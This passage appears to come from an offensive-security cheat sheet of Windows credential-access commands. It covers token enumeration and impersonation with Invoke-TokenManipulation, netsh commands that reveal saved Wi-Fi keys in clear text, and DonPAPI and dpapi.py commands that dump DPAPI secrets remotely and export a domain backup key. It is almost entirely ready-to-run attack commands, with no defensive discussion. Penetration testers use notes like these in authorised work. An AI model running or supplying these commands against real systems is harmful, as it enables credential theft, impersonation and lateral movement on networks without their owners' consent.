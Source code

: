 #### List all unique, usable tokens on the machine
```
Invoke-TokenManipulation -Enumerate
```

#### Start a new process with token of a specific user
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

#### Start news process with token of another process
```
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

## Get the wifi password
### Get saved wifi networks
```
netsh wlan show profiles
```

#### Get key from saved wifi network
```
netsh wlan show profiles name=<NAME> key=clear
```

## DPAPI
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++

### DonPAPI
- https://github.com/login-securite/DonPAPI
- DonPAPI can remotely read lsass,sam,dpapi etc. Requires local admin access.
- Place creds in file and use ```-credz``` flag.
- Also possible to set a list of hosts!

#### Read creds with credz.txt
```
python3 DonPAPI.py -credz credz.txt <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### Retrieve backup key with DA
```
dpapi.py backupkeys --export -t <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### Read all creds with backup key
```
python3 DonPAPI.py -pvk domain_backupkey.pvk <DOMAIN>/<USER>:<PASSWORD>@<IP>
```
